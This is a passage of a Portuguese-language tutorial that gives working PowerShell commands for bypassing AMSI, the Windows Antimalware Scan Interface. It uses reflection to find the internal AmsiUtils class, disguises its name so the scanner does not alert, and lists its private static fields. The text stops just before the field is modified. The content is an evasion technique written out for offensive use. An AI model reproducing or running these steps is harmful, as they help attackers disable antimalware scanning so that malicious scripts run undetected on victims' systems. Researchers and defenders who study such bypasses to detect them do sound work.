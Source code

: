 ## Criando o bypass com powershell

O powershell guarda informações do AMSI internamente dentro de uma classe chamada **System.Management.Automation.AmsiUtils,** como é um método interno, podemos ultilizar o conceito de **Reflection** para acessar seus métodos

Primeiro precisamos enumerar todos os tipos de dados existentes dentro dessa classe,
conseguimos fazer isso através do método **GetType**, presente dentro de uma estrutura
chamada **System.Management.Automation.PSReference**, ou **Ref.**

❅──────✧❅✦❅✧──────❅•❅──────✧❅✦❅✧──────❅•❅──────✧❅✦❅✧───❅

Uma estratégia é enumerar todos os tipos de dados existentes no processo do powershell:

```powershell
$a=[Ref].Assembly.GetTypes()
```

Logo em seguida, podemos criar um loop for que irá salvar somente o método que nós
queremos

```powershell
Foreach($b in $a) {if ($b.Name -like "*iUtils") {$b}}
```

Dessa forma conseguimos acesso ao método sem que o AMSI alerte.

O próximo passo é enumerar todos os campos e objetos dessa classe, em powershell
fazemos isso com o método GetFields, vamos utilizar as propriedades NonPublic e static para
enumerar as estruturas que não são instanciadas dentro da classe.

Primeiro salvamos a referência ao amsiUtils

```powershell
Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}}
```

Logo em seguida aplicamos o GetFields com as configurações mencionadas

```powershell
$c.GetFields('NonPublic,Static')
```

O primeiro campo é o que procuramos:

